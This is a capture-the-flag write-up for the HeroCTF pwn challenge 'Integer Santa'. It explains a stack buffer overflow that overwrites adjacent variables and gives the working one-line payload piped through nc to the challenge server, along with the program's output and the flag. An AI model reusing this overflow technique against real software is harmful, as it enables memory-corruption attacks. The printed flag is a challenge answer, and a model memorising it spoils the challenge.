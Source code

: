 # Integer Santa

### Category

Pwn

### Description

Tell Santa what you want for chrismas ! 

nc chall.heroctf.fr xxxx

Format : **Hero{flag}**<br>
Author : **SoEasY**

### Write up

This loop is interesting : 

```c
for(int i=0; i < tours; i++){
    if(i > strlen(flag))
        break;
    printf("%.*s\n", strlen(input) == 0 && valeur==0xcafebabe, ptr);
		ptr += 1;
}
```

We have to overflow the input buffer of 64 bytes, keep tthe value 0xcafebabe for the int "valueur" (cf. source code in C) and then overflow the "tours" int.

Then, the condition `strlen(input) == 0 && valeur==0xcafebabe` will return TRUE, which correponds to the int 1, and so the programm will give you a letter of the flag. By overflowing the variable "tours" we can print all the flag. Btw, the length of the input must be 0...

So the payload contains : 
- \x00 * 64 to overflow the buffer and having a input length of 0
- 0xcafebabe 
- a caracter to overflow the "tours" int

```bash
$ python2 -c "print('\x00'*64 + '\xbe\xba\xfe\xca' + '1')" | nc challs.heroctf.fr xxxx
██╗  ██╗███████╗██████╗  ██████╗  ██████╗████████╗███████╗
██║  ██║██╔════╝██╔══██╗██╔═══██╗██╔════╝╚══██╔══╝██╔════╝
███████║█████╗  ██████╔╝██║   ██║██║        ██║   █████╗  
██╔══██║██╔══╝  ██╔══██╗██║   ██║██║        ██║   ██╔══╝  
██║  ██║███████╗██║  ██║╚██████╔╝╚██████╗   ██║   ██║     
╚═╝  ╚═╝╚══════╝╚═╝  ╚═╝ ╚═════╝  ╚═════╝   ╚═╝   ╚═╝     
================ Integer Santa (by SoEasY) ===============

Ho ho ho... It's Integer Santa !
Tell me what do you wan for Xmas kiddo (you can ask for 1 gift only !!!) : H
e
r
o
{
W
3
1
r
d
_
0
v
3
r
F
l
0
w
_
f
0
r
_
X
m
4
s
}

Alright ! I'll tell my pixies :)
See u kiddo !
```

### Flag

Hero{W31rd_0v3rFl0w_f0r_Xm4s}
